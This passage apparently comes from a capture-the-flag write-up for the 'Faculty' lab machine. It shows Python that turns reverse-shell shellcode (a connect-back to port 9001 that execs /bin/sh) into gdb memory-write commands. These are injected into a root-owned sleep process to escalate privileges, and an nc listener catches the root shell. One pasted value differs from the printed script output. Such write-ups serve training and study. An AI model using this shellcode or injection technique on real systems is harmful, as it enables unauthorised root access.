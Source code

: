 ```python
buf += b"\x48\x97\x48\xb9\x02\x00\x23\x29\x0a\x0a\x0e\x0b"
buf += b"\x51\x48\x89\xe6\x6a\x10\x5a\x6a\x2a\x58\x0f\x05"
buf += b"\x6a\x03\x5e\x48\xff\xce\x6a\x21\x58\x0f\x05\x75"
buf += b"\xf6\x6a\x3b\x58\x99\x48\xbb\x2f\x62\x69\x6e\x2f"
buf += b"\x73\x68\x00\x53\x48\x89\xe7\x52\x57\x48\x89\xe6"
buf += b"\x0f\x05"

# Divisible by 8
payload = b"\x90" * (8 - len(buf) % 8 ) + buf

# Change endianess and print gdb lines to load the shellcode in RIP directly
for i in range(0, len(buf), 8):
	chunk = payload[i:i+8][::-1]
	chunks = "0x"
	for byte in chunk:
		chunks += f"{byte:02x}"

	print(f"set {{long}}($rip+{i}) = {chunks}")
```
Then when I run the python script I get this output:
```python
set {long}($rip+0) = 0x296a909090909090
set {long}($rip+8) = 0x5e016a5f026a9958
set {long}($rip+16) = 0x0002b9489748050f
set {long}($rip+24) = 0x48514e0e0a0a2923
set {long}($rip+32) = 0x582a6a5a106ae689
set {long}($rip+40) = 0xceff485e036a050f
set {long}($rip+48) = 0x6af675050f58216a
set {long}($rip+56) = 0x69622fbb4899583b
set {long}($rip+64) = 0x8948530068732f6e
set {long}($rip+72) = 0x050fe689485752e7
```
Then,  on the victim I use `ps -aux` look for a process run by root, in this case there is a `sleep 20`. Which is nice because the guide used a sleep command as well. Then I run `gdb` and attach it to the sleep process
```bash
gdb -p $(pgrep sleep)
```
I then get taken into the `gdb` console. In here I just paste in the output from the python script one line at a time, and when finished, enter `c`. On my waiting `nc`, I catch a reverse shell as root!
```bash
developer@faculty:~$ gdb -p $(pgrep sleep)
<...SNIP...>
0x00007f53a91bb1b4 in _start () from /lib64/ld-linux-x86-64.so.2
(gdb) set {long}($rip+0) = 0x296a909090909090
(gdb) set {long}($rip+8) = 0x5e016a5f026a9958
(gdb) set {long}($rip+16) = 0x0002b9489748050f
(gdb) set {long}($rip+24) = 0x4851220f0a0a2923
(gdb) set {long}($rip+32) = 0x582a6a5a106ae689
(gdb) set {long}($rip+40) = 0xceff485e036a050f
(gdb) set {long}($rip+48) = 0x6af675050f58216a
(gdb) set {long}($rip+56) = 0x69622fbb4899583b
(gdb) set {long}($rip+64) = 0x8948530068732f6e
(gdb) set {long}($rip+72) = 0x050fe689485752e7
(gdb) c
Continuing.
process 57041 is executing new program: /usr/bin/dash
```
Back on my listener:
```bash
┌──(kali㉿Kali)──[18:33:26]──[~/htb/Machines/Faculty]
└─$ nc -lvnp 9001
Ncat: Version 7.94SVN ( https://nmap.org/ncat )
```